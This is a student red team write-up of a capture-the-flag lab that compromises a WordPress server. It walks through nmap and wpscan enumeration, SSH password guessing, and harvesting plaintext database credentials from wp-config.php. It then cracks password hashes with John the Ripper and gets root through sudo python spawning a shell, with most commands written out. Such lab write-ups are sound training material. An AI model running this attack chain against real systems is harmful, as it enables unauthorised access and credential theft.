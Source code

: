 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap --script nmap-vulners -sV 192.168.1.110
```         
 ![](2021-05-06-19-13-21.png)
 ![](2021-05-06-19-14-12.png)
 ![](2021-05-06-19-14-42.png)
 ![](2021-05-06-19-14-55.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH version 6.7p1
  - Apache httpd 2.4.10

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - Wordpress database password stored in plaintext
  - User account able to run python commands with sudo allowing for privilege  escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:Flag1{b9bbcb33ellb80be759c4e844862482d}
    - **Exploit Used**
      - I did a WPscan and enumerated the users, saw the user Michael and was able to get an SSH session after a few password attempts. Once I had a shell I started with by using the find command to look for flag1.txt, this came up empty. I then did the same command for flag2.txt and saw it was located in /var/www. At first I thought flag1 might be in the previous directory but there were no files, only more directories. So I went inside of the html directory located in the same folder as flag2.txt and saw a bunch of files. I started grepping through the files and was able to find flag1 in service.html
      -        wpscan --url http://192.168.1.110.com --enumerate vp,u
               ssh michael@192.168.1.110
               1st password attempted: leahcim
               2nd password attempted: password
               3rd password attempted: michael
               find / -iname flag1.txt
               find / -iname flag2.txt
               cd /var/www
               cd ..
               cd /var/www/html
               grep flag about.html
               grep flag contact.php
               grep flag elements.html
               grep flag index.html
               grep flag service.html
               ![](2021-05-06-20-43-01.png)

  - `flag2.txt`:Flag2{fc3fd58dcdad9ab23faca6e9a3e581c}
    - **Exploit Used**
      - I again used a WPscan to find the user Michael, guessed his password for an SSH session, and used the find command to look for flag2.txt. It was located in /var/www 
      - find / -iname flag2.txt
      
      ![](2021-05-06-20-41-01.png)
      ![](2021-05-06-20-41-47.png)

 - `flag3.txt`: Flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - After locating the wp-config.php file within /var/www/html/wordpress I was able to discover the database username and password. These were listed as root and R@v3nSecurity respectively. and the host name was localhost
      ![](2021-05-06-20-46-24.png)
      I then used mysql to get into the DB and started looking for flag3. I first looked for the databases available, saw one titled wordpress so went into it. Then I pulled up the tables and started looking through them all from the top down. Eventually I found flag3 inside of wp_posts
      ![](2021-05-06-20-56-25.png)  
      - cd /var/www/html/wordpress
               nano wp-config.php
               mysql -u root -p'R@v3nSecurity' -h localhost
               show databases;
               use wordpress;
               show tables;
               select * from wp_commentmeta;
               select * from wp_comments;
               select * from wp_links;
               select * from wp_options;
               select * from wp_postmeta;
               select * from wp_posts;

  - `flag4.txt`:Flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Since I was inside of the SQL DB I went to the wp_users table to find the password hashes for the user accounts. I copied the hashes and echoed them into a new file I called finalprojhashes.txt. I then ran John the ripper agaisnt the file and was able to find Stevens password. I then used this combo to SSH in as Steven. Once I had a shell as the Steven user I checked the sudo privileges of Steven and saw that he could run the python command as sudo. I then spent some time on google looking for ways to use python with sudo to escalate to root. I eventually found the command "python -c 'import pty;pty.spawn("/bin/bash")" which was listed as a typical PTY upgrade using python. Once I ran this command I was able to get root access, then I ran a find command to look for flag4. I found it in /root. A quick cat of the file and I was done. 
      -        select * from wp_users;
               copy Micheal's hash and then: echo 'Michael:' >> finalprojhashes.txt
               copy Steven's hash and then: echo 'Steven:' >> finalprojhashes.txt
               john finalprojhashes.txt
               ssh steven@192.168.1.110
               password: pink84
               sudo -l
               sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
               find / -iname flag4.txt
               cat /root/flag4.txt


    ![](2021-05-06-21-14-20.png)
    ![](2021-05-06-21-19-29.png)
    ![](2021-05-06-21-22-16.png)